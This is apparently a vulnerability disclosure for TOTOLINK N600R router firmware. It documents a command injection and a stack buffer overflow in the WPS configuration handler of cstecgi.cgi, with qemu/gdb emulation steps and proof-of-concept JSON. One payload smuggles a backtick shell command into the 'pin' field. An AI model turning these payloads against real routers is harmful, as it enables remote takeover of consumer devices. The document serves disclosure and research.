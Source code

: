 # TOTOLINK_N600R_V4.3.0cu.7866_B20220506-injection attack

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## injection point 0x41caac

There is an injection attack vulnerability in the function FUN_0041c824.
The code disassembled by ghidra is shown in the figure below:

![enter image description here](https://i.miji.bid/2025/05/07/456dd04d343e04d87e7fde1fc2a4b66b.png)

### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41caac_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111`ls>41caac.txt`ll"
}
```

### Operation Results
When running to the system instruction in gdb, it is found that the executed string contains the injected command.
After execution, you can see that the corresponding file is generated in the corresponding folder.
![enter image description here](https://i.miji.bid/2025/05/07/bb335c1b28c2205899b0380cc1fcce4a.png)

![enter image description here](https://i.miji.bid/2025/05/07/c33057517510f69f307285847bccec91.png)


# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-buffer overflow

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## stack overflow point 0x41ca08

At 41ca08 in function FUN_0041c824, the strncpy function is called, which poses a risk of buffer overflow.
 
### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41ca08_poc.json
```
### json
```json
{
	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111llllllllllllllllllllabcdDOIT"
}
```

### Operation Results
When checking the current function return, the return value will be taken from $sp+228. After running strncpy, it is found that the value at $sp+288 has been overwritten with "DOIT".
![enter image description here](https://i.miji.bid/2025/05/07/42f9bdbfef870ad5d89a99d89a4fd4f4.png)
